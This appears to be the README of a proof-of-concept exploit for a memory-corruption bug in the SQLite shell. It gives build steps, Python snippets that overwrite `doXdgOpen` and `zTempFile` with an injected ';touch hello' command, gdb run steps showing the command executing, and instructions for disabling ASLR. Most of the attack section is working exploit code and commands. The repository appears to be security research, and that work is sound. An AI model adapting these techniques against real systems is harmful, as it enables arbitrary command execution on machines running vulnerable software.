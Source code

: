 ### Compile SQLite
```
CC="clang -DSQLITE_DEBUG" ./configure --enable-debug
make
```

### PoC

We exploit the vulnerability twice to corrupt `p->doXdgOpen` and `p->zTempFile` respectively. We disabled ASLR in this attack, so the address of p and faked structures are fixed. Bypassing ASLR is also feasible as demonstrated in page 60 of the slide. The complete PoC can be found in [poc.py](./poc.py).

```
# Corrupt p->doXdgOpen to 1
# set zMalloc (dest of memcpy) in sqlite3_value
exp = writeVal(exp, sqlite3_value_off + 0x40, doXdgOpen, 8)

# add a src string to test
exp = writeVal(exp, src_off, 0x1, 1)
```
```
# Corrupt p->zTempFile to ";hello"
# set zMalloc (dest of memcpy) in sqlite3_value
exp_2 = writeVal(exp_2, sqlite3_value_off + 0x40, zTempFile, 8)

# add a src string ptr to test
exp_2 = writeVal(exp_2, src_off, src_base_2 + 0x8, 8)

# add a src string ";hello"
exp_2 = writeVal(exp_2, src_off + 0x8, 0x6f6c6c6568206863756f743b, 13)
```

```
// exploit
// We need to figure out the correct base address and shellstate address
rm -rf ~/.sqlite*
./doXdgOpen-exp.py
gdb ./sqlite3
    b output_reset
    r < /tmp/exp

command "touch hello" is executed and we can find file "hello" in current folder.
```

## Tips

### Disable ASLR
```
cat /proc/sys/kernel/randomize_va_space
sudo sysctl kernel.randomize_va_space=0 
```
